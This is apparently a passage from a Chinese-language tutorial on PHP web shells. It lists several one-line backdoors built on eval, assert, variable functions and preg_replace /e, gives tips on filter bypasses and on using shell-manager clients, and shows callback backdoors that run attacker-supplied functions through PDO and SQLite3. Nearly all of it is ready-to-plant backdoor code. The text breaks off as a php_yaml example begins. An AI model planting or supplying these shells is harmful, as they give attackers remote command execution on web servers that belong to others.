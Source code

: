 ```php
<?php eval_r($_POST[sb])?>
程序代码
<?php @eval_r($_POST[sb])?>
//容错代码
程序代码
<?php assert($_POST[sb]);?>
//使用lanker一句话客户端的专家模式执行相关的php语句
程序代码
<?$_POST['sa']($_POST['sb']);?>
程序代码
<?$_POST['sa']($_POST['sb'],$_POST['sc'])?>
程序代码
<?php
@preg_replace("/[email]/e",$_POST['h'],"error");
?>
//使用这个后,使用菜刀一句话客户端在配置连接的时候在"配置"一栏输入
程序代码
<O>h=@eval_r($_POST[c]);</O>
程序代码
<script language="php">@eval_r($_POST[sb])</script>
//绕过<?限制的一句话
```

## 10. 数据库操作与第三方库中的回调后门

```php
<?php
$e = $_REQUEST['e'];
$db = new PDO('sqlite:sqlite.db3');
$db->sqliteCreateFunction('myfunc', $e, 1);
$sth = $db->prepare("SELECT myfunc(:exec)");
$sth->execute(array(':exec' => $_REQUEST['pass']));
```

![](https://ws1.sinaimg.cn/large/b6de3d7dgy1fz8ksaearvj20hb0dhjs5.jpg)

上面的sqlite方法是依靠PDO执行的，我们也可以直接调用sqlite3的方法构造回调后门：

```php
<?php
$e = $_REQUEST['e'];
$db = new SQLite3('sqlite.db3');
$db->createFunction('myfunc', $e);
$stmt = $db->prepare("SELECT myfunc(?)");
$stmt->bindValue(1, $_REQUEST['pass'], SQLITE3_TEXT);
$stmt->execute();
```

前提是php5.3以上。如果是php5.3以下的，使用sqlite_*函数，自己研究我不列出了。

这两个回调后门，都是依靠php扩展库（pdo和sqlite3）来实现的。其实如果目标环境中有特定扩展库的情况下，也可以来构造回调后门。

比如php_yaml：
